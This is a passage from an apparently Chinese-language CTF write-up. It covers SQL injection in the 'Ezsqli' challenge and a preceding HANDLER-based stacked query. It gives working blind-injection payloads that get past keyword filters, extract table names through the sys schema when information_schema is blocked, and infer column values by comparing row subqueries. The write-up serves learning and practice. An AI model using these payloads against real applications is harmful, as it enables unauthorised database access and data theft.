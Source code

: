 ```
-1';handler `FlagHere` open;handler `FlagHere` read first;#
```

[![](https://s2.ax1x.com/2020/02/22/3QJpfs.png)](https://s2.ax1x.com/2020/02/22/3QJpfs.png)

### <a class="reference-link" name="Ezsqli"></a>Ezsqli

打开题目

[![](https://s2.ax1x.com/2020/02/22/3QthwT.png)](https://s2.ax1x.com/2020/02/22/3QthwT.png)

发现 输入`1` 回显 `Hello Nu1L`

输入`2` 回显`Hello CQGAME`

当我们输入 `2-1` 回显 `Hello Nu1L`

发现存在注入点。`2-(ascii(substr(database(),1,1))&gt;1)`这样可以探测到数据库名。

这其中也过滤了一些字符串

```
sleep,instr,benchmark,format,insert,bin,substring,ord,and,in,or,xor
```

其中`union`和`select`单独使用不会被过滤，一起使用会被判定非法字符。。。

由于过滤了`in`，我们就无法使用`information_schema`这个库来查询我们想要的表名和字段名了。

我们需要了解一下MySQL5.7的新特性

```
由于performance_schema过于发杂，所以mysql在5.7版本中新增了sys schemma，基础数据来自于performance_chema和information_schema两个库，本身数据库不存储数据。
```

我也找到了一篇文章[bypass information_schema](https://www.anquanke.com/post/id/193512)

通过文章上说讲我们可以通过`sys.schema_table_statistics_with_buffer`来查询表名。<br>
构造payload:

```
2-(ascii(substr((select group_concat(table_name) from sys.schema_table_statistics_with_buffer where table_schema=database()),1,1))&gt;1)
```

这样我们就可以构造出来表名`f1ag_1s_h3r3_hhhhh`。

在我们知道表名的情况下，原来的想法是可以进行无列明注入的，但是过滤了`union select` `join`等 弄得很难受

尝试之间发现：<br>`2 - (ascii(substr((select  count(*) f1ag_1s_h3r3_hhhhh),1,1))=49)` 可以得到表中只有一条数据

`2 - (ascii(substr((select  count(id) f1ag_1s_h3r3_hhhhh),1,1))=49)` 可以的得到表存在`id`值为`1`

在尝试中，发现了一个骚姿势：

```
mysql&gt; select (select 1,0x01,3)&gt;(select * from user limit 1);
+------------------------------------------------+
| (select 1,0x01,3)&gt;(select * from user limit 1) |
+------------------------------------------------+
|                                              0 |
+------------------------------------------------+
1 row in set (0.00 sec)

mysql&gt; select (select 1,0xff,3)&gt;(select * from user limit 1);
+------------------------------------------------+
| (select 1,0xff,3)&gt;(select * from user limit 1) |
+------------------------------------------------+
|                                              1 |
+------------------------------------------------+
1 row in set (0.00 sec)

```
